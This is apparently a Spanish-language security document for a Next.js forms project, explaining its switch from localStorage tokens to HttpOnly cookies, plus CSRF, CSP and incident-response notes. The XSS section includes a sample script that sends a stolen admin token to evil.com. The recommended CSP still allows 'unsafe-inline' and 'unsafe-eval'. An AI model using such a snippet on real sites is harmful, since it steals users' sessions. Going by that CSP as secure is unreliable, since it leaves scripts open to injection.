

# BIZUIT Custom Forms - Security Implementation

## Overview

Este documento describe las medidas de seguridad implementadas en el proyecto para proteger contra ataques comunes web.

---

## 1. HttpOnly Cookies para Autenticación

### ✅ Implementación

**Reemplazamos localStorage por HttpOnly cookies** para almacenar tokens JWT.

#### Antes (INSEGURO):
```typescript
// ❌ Vulnerable a XSS
localStorage.setItem('admin_token', token)
const token = localStorage.getItem('admin_token') // Cualquier script puede leerlo
```

#### Ahora (SEGURO):
```typescript
// ✅ Protegido contra XSS
cookies().set('auth_token', token, {
  httpOnly: true,    // JavaScript NO puede leerlo
  secure: true,      // Solo HTTPS en producción
  sameSite: 'lax',   // Protección CSRF
  maxAge: 86400,     // 24 horas
})
```

### 📁 Archivos Involucrados

- **[app/api/auth/login/route.ts](app/api/auth/login/route.ts)** - Login endpoint que establece cookies
- **[app/api/auth/logout/route.ts](app/api/auth/logout/route.ts)** - Logout endpoint que limpia cookies
- **[app/api/auth/session/route.ts](app/api/auth/session/route.ts)** - Verifica sesión activa
- **[hooks/useLoginForm.ts](hooks/useLoginForm.ts)** - Hook de login actualizado
- **[app/admin/layout.tsx](app/admin/layout.tsx)** - Layout con verificación de sesión

### 🛡️ Protecciones

| Protección | Descripción |
|------------|-------------|
| **HttpOnly** | Cookies inaccesibles por JavaScript (previene XSS) |
| **Secure** | Solo se envían por HTTPS en producción |
| **SameSite=lax** | Previene CSRF attacks |
| **MaxAge** | Expiración automática de sesión |
| **Path=/** | Cookies solo válidas en la app |

---

## 2. XSS Protection (Cross-Site Scripting)

### ¿Qué es XSS?

Un atacante inyecta código JavaScript malicioso en tu app:

```html
<!-- Ejemplo de ataque XSS -->
<script>
  fetch('https://evil.com/steal', {
    body: localStorage.getItem('admin_token') // ❌ ANTES: Token robado
  })
</script>
```

### ✅ Cómo lo prevenimos

1. **HttpOnly Cookies** - JavaScript no puede acceder al token
2. **Next.js Auto-Escaping** - Sanitiza automáticamente el output HTML
3. **CSP Headers** (recomendado para producción) - Ver sección CSP

### Ejemplo de Intento de Ataque

```javascript
// Atacante intenta robar token:
console.log(document.cookie) // ✅ NO incluye auth_token (HttpOnly)
console.log(localStorage.getItem('admin_token')) // ✅ null (ya no se usa)
```

---

## 3. CSRF Protection (Cross-Site Request Forgery)

### ¿Qué es CSRF?

Un sitio malicioso intenta hacer requests a tu app usando tu sesión:

```html
<!-- evil-site.com -->

<!-- Si usas cookies normales, se envían automáticamente -->
```

### ✅ Cómo lo prevenimos

1. **SameSite=lax cookies** - Solo se envían desde tu propio dominio
2. **Credentials: 'include'** - Requests explícitos requieren este flag
3. **Origin validation** - Next.js valida el origen de las requests

```typescript
// Client-side - debe incluir credentials explícitamente
fetch('/api/auth/login', {
  credentials: 'include' // ✅ Requerido para enviar cookies
})
```

---

## 4. Comparación: localStorage vs HttpOnly Cookies

### localStorage (Método Anterior)

```typescript
// ❌ INSEGURO
const login = async (username, password) => {
  const res = await fetch('http://backend:8000/api/auth/login', {
    body: JSON.stringify({ username, password })
  })
  const { token } = await res.json()

  localStorage.setItem('admin_token', token) // ❌ Vulnerable a XSS

  // En cada request:
  const authToken = localStorage.getItem('admin_token')
  fetch('/api/data', {
    headers: { Authorization: `Bearer ${authToken}` }
  })
}
```

**Problemas:**
- ✗ Cualquier script puede leer `localStorage`
- ✗ Vulnerable a XSS attacks
- ✗ No hay protección CSRF
- ✗ Token visible en DevTools

### HttpOnly Cookies (Implementación Actual)

```typescript
// ✅ SEGURO
const login = async (username, password) => {
  const res = await fetch('/api/auth/login', { // ← Next.js API route
    body: JSON.stringify({ username, password }),
    credentials: 'include' // ← Incluir cookies
  })

  // Server establece cookie HttpOnly - NO guardamos nada en cliente

  // En cada request:
  fetch('/api/data', {
    credentials: 'include' // ← Cookie se envía automáticamente
  })
}
```

**Ventajas:**
- ✓ JavaScript NO puede leer la cookie
- ✓ Protección XSS automática
- ✓ Protección CSRF con SameSite
- ✓ Token invisible en DevTools

---

## 5. Flujo de Autenticación Seguro



---

## 6. Content Security Policy (CSP)

### Recomendado para Producción

Agrega estos headers en producción para prevenir XSS:

```typescript
// next.config.js
const securityHeaders = [
  {
    key: 'Content-Security-Policy',
    value: `
      default-src 'self';
      script-src 'self' 'unsafe-eval' 'unsafe-inline';
      style-src 'self' 'unsafe-inline';
      img-src 'self' data: https:;
      font-src 'self' data:;
      connect-src 'self' ${process.env.NEXT_PUBLIC_API_URL};
    `.replace(/\s{2,}/g, ' ').trim()
  },
  {
    key: 'X-Frame-Options',
    value: 'DENY'
  },
  {
    key: 'X-Content-Type-Options',
    value: 'nosniff'
  },
  {
    key: 'Referrer-Policy',
    value: 'origin-when-cross-origin'
  },
  {
    key: 'Permissions-Policy',
    value: 'camera=(), microphone=(), geolocation=()'
  }
]

module.exports = {
  async headers() {
    return [
      {
        source: '/:path*',
        headers: securityHeaders,
      },
    ]
  },
}
```

---

## 7. Best Practices Implementadas

### ✅ Checklist de Seguridad

- [x] **HttpOnly cookies** para tokens de autenticación
- [x] **Secure flag** en cookies (producción)
- [x] **SameSite=lax** para prevenir CSRF
- [x] **Expiración de sesión** (24 horas)
- [x] **Logout endpoint** que limpia cookies
- [x] **Session validation** en cada request protegido
- [x] **Environment variables** para URLs sensibles
- [x] **No exponer tokens** en localStorage/sessionStorage
- [ ] **CSP headers** (recomendado para producción)
- [ ] **Rate limiting** (recomendado para producción)
- [ ] **HTTPS only** (requerido en producción)

---

## 8. Configuración de Producción

### Variables de Entorno Requeridas

```bash
# .env.production
FASTAPI_URL=https://api.bizuit.com
NODE_ENV=production # ← Habilita Secure cookies
```

### Verificación de Cookies en Producción

En producción, las cookies deben tener:

```
Set-Cookie: auth_token=xyz; HttpOnly; Secure; SameSite=Lax; Max-Age=86400; Path=/
```

Verificar con DevTools → Network → Response Headers

---

## 9. Testing de Seguridad

### Tests Implementados

- ✓ Login con cookies - [hooks/__tests__/useLoginForm.test.ts](hooks/__tests__/useLoginForm.test.ts)
- ✓ No usage de localStorage para tokens
- ✓ Credentials: 'include' en requests

### Tests Recomendados (Futuro)

```bash
# Penetration testing tools
npm install --save-dev @security-audit/scanner

# Run security audit
npm audit
npm run security:scan
```

---

## 10. Monitoreo y Logs

### Logs de Seguridad

Los siguientes eventos se logean:

```typescript
// Login attempts
console.log('[Auth API] Login attempt:', { username, success })

// Failed authentications
console.error('[Auth API] Login failed:', { username, error })

// Session checks
console.log('[Auth API] Session check:', { authenticated, userId })
```

### Métricas a Monitorear en Producción

- Failed login attempts (brute force detection)
- Session hijacking attempts
- Invalid token usage
- CSRF token mismatches

---

## 11. Incident Response

### En caso de brecha de seguridad:

1. **Invalidar todas las sesiones activas**
   ```bash
   # Cambiar secret de JWT en backend
   # Forzar re-login de todos los usuarios
   ```

2. **Rotar secrets**
   ```bash
   # Generar nuevo JWT secret
   openssl rand -hex 32
   ```

3. **Auditar logs**
   ```bash
   # Buscar patrones sospechosos
   grep "Login failed" logs/*.log
   ```

4. **Notificar usuarios afectados**

---

## 12. Referencias

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [MDN Web Security](https://developer.mozilla.org/en-US/docs/Web/Security)
- [Next.js Security](https://nextjs.org/docs/app/building-your-application/configuring/security)
- [JWT Best Practices](https://tools.ietf.org/html/rfc8725)

---

## Resumen

**Migración Completada:**
- ❌ localStorage (vulnerable) → ✅ HttpOnly Cookies (seguro)
- ❌ Client-side token storage → ✅ Server-side cookie management
- ❌ No CSRF protection → ✅ SameSite cookies
- ❌ Tokens expuestos → ✅ Tokens ocultos

**Impacto:**
- 🛡️ **XSS Protection:** Tokens inaccesibles por JavaScript
- 🛡️ **CSRF Protection:** SameSite cookies
- 🛡️ **Session Security:** Expiración automática
- 🛡️ **Production Ready:** Secure flag para HTTPS

---

*Última actualización: 2025-11-18*
*Versión: 2.0 (HttpOnly Cookies)*
